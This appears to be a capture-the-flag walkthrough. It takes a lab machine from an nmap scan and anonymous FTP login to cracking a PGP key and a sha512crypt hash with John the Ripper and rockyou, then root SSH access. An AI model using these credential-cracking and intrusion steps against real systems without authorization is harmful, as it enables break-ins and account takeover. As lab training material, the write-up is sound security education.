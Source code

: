 
---

# 📄 Penetration Test Walkthrough: Full Port Scan & Root Access via FTP, PGP, and SSH

## 🔍 1. Full Port Scan with Nmap

We start by scanning all ports on the target machine to identify open services:

```bash
nmap -v -A 0.0.0.0
```

**Result:**

- Port **21** (FTP) - **Anonymous login allowed**
- Port **22** (SSH) - Open

---

## 📂 2. Accessing FTP (Anonymous Login)

We connect to the FTP server using anonymous login:

```bash
ftp 0.0.0.0 -P 21
```

**Findings:**

- `user.txt` file available.
- `notread/` directory accessible.
- Found the following files:

```bash
get backup.pgp
get private.asc
```

---

## 🔐 3. Cracking PGP Key with John the Ripper

We need to crack the private PGP key to decrypt `backup.pgp`.

### Extract hash from PGP private key:

```bash
gpg2john private.asc >> hash.txt
```

### Run John the Ripper with `rockyou.txt` wordlist:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

**Result:**  
We successfully recovered the PGP passphrase.

---

## 🔓 4. Decrypting the Backup File

Now that we have the PGP key password:

### Import the private key:

```bash
gpg --import private.asc
```

### Decrypt the backup file:

```bash
gpg --output backup.txt --decrypt backup.pgp
```

**Result:**  
`backup.txt` contains credentials that are hashed.

---

## 🔑 5. Cracking Credentials

We crack the password hash obtained from `backup.txt` using John the Ripper again:

```bash
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt backup.txt
```

**Result:**  
Password successfully cracked.

---

## 🔗 6. SSH Access & Root Flag

We now SSH into the machine using the cracked credentials:

```bash
ssh root@0.0.0.0
```

**Result:**  
We gain **root access** and retrieve the flag.

---

## ✅ Summary:

|Step|Status|
|---|---|
|Port Scan (Nmap)|✅ Completed|
|FTP Access|✅ Completed|
|Retrieved PGP Files|✅ Completed|
|Cracked PGP Key|✅ Completed|
|Decrypted Backup File|✅ Completed|
|Cracked Password Hash|✅ Completed|
|SSH Root Access|✅ Completed|
|Retrieved Flag|✅ Completed|

---